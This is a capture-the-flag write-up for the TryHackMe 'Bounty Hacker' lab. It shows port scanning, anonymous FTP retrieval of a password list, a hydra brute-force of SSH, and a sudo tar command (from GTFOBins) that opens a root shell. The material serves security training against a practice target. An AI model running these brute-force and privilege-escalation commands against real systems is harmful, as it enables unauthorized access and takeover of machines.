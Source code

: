 ## THM CTF - Bounty Hacker

We can start changing local DNS to easily handle all the process.
```
sudo nano /etc/hosts
```
Add the record:
```
xxx.xxx.xxx.xxx	   bounty.thm
```
Now we can proceed with an ```Nmap``` scan.
```
sudo nmap -sS -T4 bounty.thm -p-
```
We discovered three open ports, and we can list the services they provide.
```
sudo nmap -sS -T4 bounty.thm -p21,22,80 -sV
```
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
It's time to visit the site on ```port 80``` and to start a directory enumeration.

We found nothing special in the main page code, except for the ```images``` folder.
```
gobuster dir -u http://bounty.thm -w /usr/share/wordlists/dirb/common.txt -x php,txt,json,log,db,html
```
Same result with ```Gobuster```.

Better check another service for now.
```
sudo nmap -sS -T4 bounty.thm -p21,22,80 -sV -sC
```
We discover that ```FTP``` service allow anonymous access.
```
ftp bounty.thm
anonymous
```
But while checking for files with ls command, the service enter in an ```extended passive mode```.

After conducting some research, we can disable this mode by executing the following command.
```
passive
```
We continue using it until we receive the response.
```
Passive mode: off; fallback to active mode: off.
```
Now we can easly discover and download two files.

In the ```task.txt``` file we can find the answer to the task.

We found another file in the ```FTP``` folder named ```locks.txt```.

We can try to use it to brute force the ```SSH``` service.
```
hydra -vV -l lin -P locks.txt bounty.thm ssh
```
We are able to find valid credentials that can be used to answer our questions.

Logging in the SSH service we are able to find the file and the flag contained in it.
```
ssh lin@bounty.thm
```
Having ```lin``` password we can try
```
sudo -l
```
Discovering that ```lin``` can use tar with sudo privileges.

Thanks to [GTFOBins](https://gtfobins.github.io/gtfobins/tar/) we discover a command line to obtain a ```root shell```.
```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
Capturing the last flag.

